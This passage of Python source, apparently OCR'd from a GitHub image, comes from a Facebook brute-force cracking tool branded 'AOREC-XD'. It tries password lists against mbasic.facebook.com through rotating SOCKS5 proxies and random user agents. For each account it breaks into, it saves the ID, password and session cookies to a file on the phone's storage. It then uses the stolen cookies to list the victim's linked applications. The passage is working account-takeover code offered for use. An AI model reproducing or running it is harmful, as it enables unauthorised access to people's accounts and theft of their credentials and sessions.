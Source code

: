 					print('\n')
					statusok = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] COOKIES  : {kuki}'
					statusok1 = nel(statusok, style='green')
					cetak(nel(statusok1, title='AOREC-XD OK'))
					ok+=1
					break
				elif 'ya' in taplikasi:
					coki=po.cookies.get_dict()
					kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ])
					open('/sdcard/4MBF-DATA/OK/'+okc,'a').write(idf+'|'+pw+'|'+kuki+'\n')
					user=idf
					infoakun = ""
					session = requests.Session()
					cek2 = session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies=coki,headers=headapp).text
					cek =session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies=coki,headers=headapp).text
					infoakun += (f"\n[bold cyan][•] LIST ACTIVE APPLICATIONS :[/bold cyan] \n")
					apkaktif=re.findall('</i><div class=".*?"><span class=".*?">(.*?)</span><div></div><div class=".*?">(.*?)</div></div>',str(cek))
					nok=1
					for muncul in apkaktif:
						infoakun+= (f"[bold cyan][{nok}] {muncul[0]} {muncul[1]}[/bold cyan]\n")
						nok+=1

					hit=0
					infoakun += (f"\n[bold yellow][•] LIST EXPIRED APPLICATIONS :[/bold yellow]\n")
					apkexp=re.findall('</i><div class=".*?"><span class=".*?">(.*?)</span><div></div><div class=".*?">(.*?)</div></div>',str(cek2))
					hit=0
					for muncul in apkexp:
						hit+=1
						infoakun += (f"[bold yellow][{hit}] {muncul[0]} {muncul[1]}[/bold yellow]\n")
					print('\n')
					statusok = f'[bold green][•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] COOKIES  : {kuki}[/bold green]\n{infoakun}'
					statusok1 = nel(statusok, style='green')
					cetak(nel(statusok1, title='[bold green]AOREC-XD OK[/bold green]'))
					ok+=1
					break


			else:
				continue
		except requests.exceptions.ConnectionError:
			time.sleep(31)
	loop+=1
def crackmbasic(idf,pwv):
	global loop,ok,cp
	bi = random.choice([u,k,kk,b,h,hh])
	pers = loop*100/len(id2)
	fff = '%'
	nip=random.choice(prox)
	proxs= {'http': 'socks5://'+nip}
	ua = random.choice(ugen)
	ua2 = random.choice(ugen2)
	ses = requests.Session()
	sys.stdout.write(f"\r{x}[{h}+{x}]{k} ╰─>{P}[{b}{loop}{P}/{u}{len(id)}{P}]—{P}[{H}{ok}{P}]—{P}[{k}{cp}{x}]—[{bo}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
	for pw in pwv:
		try: